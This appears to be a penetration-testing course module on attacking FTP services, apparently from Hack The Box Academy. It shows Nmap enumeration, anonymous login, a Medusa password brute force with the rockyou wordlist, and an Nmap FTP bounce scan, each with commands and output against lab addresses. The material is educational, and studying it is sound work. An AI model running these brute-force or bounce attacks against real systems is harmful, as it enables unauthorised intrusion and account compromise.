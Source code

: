 # Attacking FTP

The [File Transfer Protocol](https://en.wikipedia.org/wiki/File_Transfer_Protocol) (`FTP`) is a standard network protocol used to transfer files between computers. It also performs directory and files operations, such as changing the working directory, listing files, and renaming and deleting directories or files. By default, FTP listens on port `TCP/21`.

To attack an FTP Server, we can abuse misconfiguration or excessive privileges, exploit known vulnerabilities or discover new vulnerabilities. Therefore, after gaining access to the FTP Service, we need to be aware of the content in the directory so we can search for sensitive or critical information, as we previously discussed. The protocol is designed to trigger downloads and uploads with commands. Thus, files can be transferred between servers and clients. A file management system is available to the user, known by the operating system. Files can be stored in folders, which may be located in other folders. This results in a hierarchical directory structure. Most companies use this service for software or website development processes.

## Enumeration

`Nmap` default scripts `-sC` includes the [ftp-anon](https://nmap.org/nsedoc/scripts/ftp-anon.html) Nmap script which checks if a FTP server allows anonymous logins. The version enumeration flag `-sV` provides interesting information about FTP services, such as the FTP banner, which often includes the version name. We can use the `ftp` client or `nc` to interact with the FTP service. By default, FTP runs on TCP port 21.

### **Nmap**

```shell-session
al1abb@htb[/htb]$ sudo nmap -sC -sV -p 21 192.168.2.142 

Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-10 22:04 EDT
Nmap scan report for 192.168.2.142
Host is up (0.00054s latency).

PORT   STATE SERVICE
21/tcp open  ftp
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r--   1 1170     924            31 Mar 28  2001 .banner
| d--x--x--x   2 root     root         1024 Jan 14  2002 bin
| d--x--x--x   2 root     root         1024 Aug 10  1999 etc
| drwxr-srwt   2 1170     924          2048 Jul 19 18:48 incoming [NSE: writeable]
| d--x--x--x   2 root     root         1024 Jan 14  2002 lib
| drwxr-sr-x   2 1170     924          1024 Aug  5  2004 pub
|_Only 6 shown. Use --script-args ftp-anon.maxlist=-1 to see all.
```

## Misconfigurations

As we discussed, anonymous authentication can be configured for different services such as FTP. To access with anonymous login, we can use the `anonymous` username and no password. This will be dangerous for the company if read and write permissions have not been set up correctly for the FTP service. Because with the anonymous login, the company could have stored sensitive information in a folder that the anonymous user of the FTP service could have access to.

This would enable us to download this sensitive information or even upload dangerous scripts. Using other vulnerabilities, such as path traversal in a web application, we would be able to find out where this file is located and execute it as PHP code, for example.

### **Anonymous Authentication**

```shell-session
al1abb@htb[/htb]$ ftp 192.168.2.142    
                     
Connected to 192.168.2.142.
220 (vsFTPd 2.3.4)
Name (192.168.2.142:kali): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0               9 Aug 12 16:51 test.txt
226 Directory send OK.
```

Once we get access to an FTP server with anonymous credentials, we can start searching for interesting information. We can use the commands `ls` and `cd` to move around directories like in Linux. To download a single file, we use `get`, and to download multiple files, we can use `mget`. For upload operations, we can use `put` for a simple file or `mput` for multiple files. We can use `help` in the FTP client session for more information.

In the [Footprinting](https://academy.hackthebox.com/course/preview/footprinting) module, we cover detailed information about possible misconfigurations of such services. For example, many different settings can be applied to an FTP server, and some of them lead to different options that could cause possible attacks against that service. However, this module will focus on specific attacks rather than finding individual misconfigurations.

## Protocol Specifics Attacks

Many different attacks and methods are protocol-based. However, it is essential to note that we are not attacking the individual protocols themselves but the services that use them. Since there are dozens of services for a single protocol and they process the corresponding information differently, we will look at some.

### **Brute Forcing**

If there is no anonymous authentication available, we can also brute-force the login for the FTP services using a list of the pre-generated usernames and passwords. There are many different tools to perform a brute-forcing attack. Let us explore one of them, [Medusa](https://github.com/jmk-foofus/medusa). With `Medusa`, we can use the option `-u` to specify a single user to target, or you can use the option `-U` to provide a file with a list of usernames. The option `-P` is for a file containing a list of passwords. We can use the option `-M` and the protocol we are targeting (FTP) and the option `-h` for the target hostname or IP address.

{% hint style="info" %}
**Note:** Although we may find services vulnerable to brute force, most applications today prevent these types of attacks. A more effective method is Password Spraying.
{% endhint %}

### **Brute Forcing with Medusa**

```shell-session
al1abb@htb[/htb]$ medusa -u fiona -P /usr/share/wordlists/rockyou.txt -h 10.129.203.7 -M ftp 
                                                             
Medusa v2.2 [http://www.foofus.net] (C) JoMo-Kun / Foofus Networks <jmk@foofus.net>                                                      
ACCOUNT CHECK: [ftp] Host: 10.129.203.7 (1 of 1, 0 complete) User: fiona (1 of 1, 0 complete) Password: 123456 (1 of 14344392 complete)
ACCOUNT CHECK: [ftp] Host: 10.129.203.7 (1 of 1, 0 complete) User: fiona (1 of 1, 0 complete) Password: 12345 (2 of 14344392 complete)
ACCOUNT CHECK: [ftp] Host: 10.129.203.7 (1 of 1, 0 complete) User: fiona (1 of 1, 0 complete) Password: 123456789 (3 of 14344392 complete)
ACCOUNT FOUND: [ftp] Host: 10.129.203.7 User: fiona Password: family [SUCCESS]
```

### **FTP Bounce Attack**

An FTP bounce attack is a network attack that uses FTP servers to deliver outbound traffic to another device on the network. The attacker uses a `PORT` command to trick the FTP connection into running commands and getting information from a device other than the intended server.

Consider we are targetting an FTP Server `FTP_DMZ` exposed to the internet. Another device within the same network, `Internal_DMZ`, is not exposed to the internet. We can use the connection to the `FTP_DMZ` server to scan `Internal_DMZ` using the FTP Bounce attack and obtain information about the server's open ports. Then, we can use that information as part of our attack against the infrastructure.

<figure><img src="../../../../.gitbook/assets/image (131).png" alt=""><figcaption><p>FTP Bounce Attack</p></figcaption></figure>

Source: [https://www.geeksforgeeks.org/what-is-ftp-bounce-attack/](https://www.geeksforgeeks.org/what-is-ftp-bounce-attack/)

The `Nmap` -b flag can be used to perform an FTP bounce attack:

```bash
nmap -Pn -v -n -p80 -b anonymous:password@10.10.110.213 172.17.0.2
```

```shell-session
al1abb@htb[/htb]$ nmap -Pn -v -n -p80 -b anonymous:password@10.10.110.213 172.17.0.2

Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-27 04:55 EDT
Resolved FTP bounce attack proxy to 10.10.110.213 (10.10.110.213).
Attempting connection to ftp://anonymous:password@10.10.110.213:21
Connected:220 (vsFTPd 3.0.3)
Login credentials accepted by FTP server!
Initiating Bounce Scan at 04:55
FTP command misalignment detected ... correcting.
Completed Bounce Scan at 04:55, 0.54s elapsed (1 total ports)
Nmap scan report for 172.17.0.2
Host is up.

PORT   STATE  SERVICE
80/tcp open http

<SNIP>
```

Modern FTP servers include protections that, by default, prevent this type of attack, but if these features are misconfigured in modern-day FTP servers, the server can become vulnerable to an FTP Bounce attack.
